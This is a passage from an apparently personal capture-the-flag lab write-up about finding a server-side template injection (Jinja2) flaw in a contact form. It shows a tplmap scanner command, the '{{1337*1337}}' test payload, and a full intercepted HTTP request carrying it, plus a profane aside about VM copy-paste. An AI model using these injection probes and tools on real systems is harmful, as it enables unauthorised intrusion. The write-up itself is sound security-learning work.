 ```bash
python tplmap.py -u http://example.com/page?name=John
```

---
---
---

# Foothold 🦶

The exact location of the SSTI vulnerability can be found on the `contact/` page. Let's verify it!
The **`Name`** field does not get sanitized, you can try add `{{1337*1337}}` to multiply two numbers,  if it works, The evidence would be the number 1.787.569.

- When we finish filling the form, we can now confirm the SSTI is working. Instead of showing the input, it calculated the two numbers multiplying instead on the "greeting message"

![](corp_Server-Side-Template-Injection.png)

---

## Burp Suite - Gain Foothold using Python-based engine Jinja2
#BurpSuite #Foxy #Python #Jinja2 #Intercept #Proxy 

Use the "Proxy tab" and hit "Intercept"
Use the Foxy Proxy extension

```
Yeah go fuck yourself... Why is copy-paste not working anymore yet again between my host and the VM?? 
it's seem to be broken half of the time I boot!? How!? Why? Greatest mystery of this universe/dimension 😧
```

Alright... Calm down my dear... Have a coffee... Let's try again... 🫂❤️‍🩹

### Request
```http
POST /contact HTTP/1.1
Host: 192.168.56.123
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Origin: http://192.168.56.123
Connection: keep-alive
Referer: http://192.168.56.123/contact
Upgrade-Insecure-Requests: 1

Name=%7B%7B1337*1337%7D%7D&w3lPhone=123123123123&w3lSender=DerpGuy%40email.com&w3lSubject=mySub&w3lMessage=MyMessage
```

